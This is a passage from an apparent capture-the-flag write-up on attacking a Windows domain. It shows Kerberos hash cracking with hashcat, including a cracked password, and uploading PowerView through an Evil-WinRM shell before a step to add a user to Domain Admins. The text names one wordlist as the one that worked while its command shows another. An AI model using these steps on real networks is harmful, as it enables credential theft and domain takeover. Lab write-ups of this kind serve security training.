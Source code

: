 #### Crack Hashes

I'll drop those two hashes into a file and remove the newlines to there
are only two lines of text. I first tried with `rockyou.txt`, but didn't
crack either. I started looking at other lists in
[SecLists](https://github.com/danielmiessler/SecLists), and when I tried
`Keyboard-Combinations.txt`, p00_adm broke:



    root@kali# hashcat -m 13100 hashes.kerbi /usr/share/wordlists/rockyou.txt --force
    ...[snip]...
    ZQ!5t4r



I'll grab `PowerView.ps1` from
[PowerSploit](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
and upload it using the Evil-WinRM shell:



    *Evil-WinRM* PS C:\programdata> upload /opt/PowerSploit/Recon/PowerView.ps1
    Info: Uploading /opt/PowerSploit/Recon/PowerView.ps1 to C:\programdata\PowerView.ps1

                                                                  
    Data: 1027036 bytes of 1027036 bytes copied          
                                                                       
    Info: Upload successful!



### Add to Domain Admins

If I didn't know how to exploit this privilege, the help in Bloodhound
on the link will tell me:

![](/img/image-20200606145743610.png)
